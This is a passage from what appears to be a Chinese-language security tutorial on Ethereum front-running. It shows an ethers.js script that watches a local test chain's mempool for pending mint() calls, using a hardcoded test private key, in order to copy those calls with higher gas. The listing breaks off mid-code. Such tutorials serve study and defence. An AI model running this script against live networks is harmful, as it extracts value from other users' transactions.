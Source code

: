 <img src="https://github.com/Ns1ookup/ns1ookup.github.io/blob/master/_posts/repeat/2.png" alt="image-20240130190842046" style="zoom:50%;" />



4.部署ethers.js抢跑脚本： 简单来说，`frontrun.js`脚本监听了测试链`mempool`中的未决交易，筛选出调用了`mint()`的交易，然后复制它并调高`gas`进行抢跑。(package.json文件中"dependencies": {  "ethers": "^5.7.2"}，高版本ethers有部分bug)

```js
// provider.on("pending", listener)
import { ethers, utils } from "ethers";

// 1. 创建provider
var url = "http://127.0.0.1:8545";
const provider = new ethers.providers.WebSocketProvider(url);
let network = provider.getNetwork()
network.then(res => console.log(`[${(new Date).toLocaleTimeString()}] 连接到 chain ID ${res.chainId}`));

// 2. 创建interface对象，用于解码交易详情。
const iface = new utils.Interface([
    "function mint() external",
])

// 3. 创建钱包，用于发送抢跑交易
const privateKey = '0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a'
const wallet = new ethers.Wallet(privateKey, provider)

const main = async () => {
    // 4. 监听pending的mint交易，获取交易详情，然后解码。
    console.log("\n4. 监听pending交易，获取txHash，并输出交易详情。")
    provider.on("pending", async (txHash) => {
        if (txHash) {
            // 获取tx详情
            let tx = await provider.getTransaction(txHash);
            if (tx) {
                // filter pendingTx.data
                if (tx.data.indexOf(iface.getSighash("mint")) !== -1 && tx.from != wallet.address ) {
                    // 打印txHash
                    console.log(`\n[${(new Date).toLocaleTimeString()}] 监听Pending交易: ${txHash} \r`);
```